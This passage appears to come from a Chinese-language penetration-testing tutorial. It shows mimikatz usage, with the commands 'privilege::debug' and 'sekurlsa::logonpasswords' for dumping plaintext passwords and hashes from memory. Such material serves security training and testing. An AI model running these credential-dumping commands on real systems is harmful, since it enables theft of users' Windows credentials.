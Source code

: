 ### 4.1.1 mimikatz

用法:

```bash
mimikatz # privilege::debug (提升权限)
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords (抓取明文密码和 hash) 

```

![](images/yushentou/15899737604239.png)
